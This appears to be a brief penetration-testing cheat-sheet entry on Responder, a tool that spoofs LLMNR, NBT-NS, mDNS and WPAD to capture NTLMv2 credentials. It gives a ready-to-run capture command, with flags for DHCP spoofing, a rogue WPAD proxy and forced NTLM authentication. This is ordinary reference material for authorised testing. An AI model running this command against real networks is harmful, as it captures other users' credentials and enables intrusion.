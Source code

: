 
Responder impersonates services using LLMNR, NBT-NS, mDNS, WPAD protocols and captures credentials (usually NTLMv2 Challenge/Response) when a user attempts to authenticate against the spoofed services.

---

Capture NTLMv2 hashes with *responder* (requires user activity):
```bash
sudo responder -v -I eth0 -dwP
```
Args:
`-v`: Verbose
`-I`: Interface to listen on
`-d`: Respond to DHCP broadcast requests
`-w`: Starts a WPAD (Web Proxy Autodiscovery Protocol) rogue proxy server
`-P`: Force NTLM authentication for the proxy
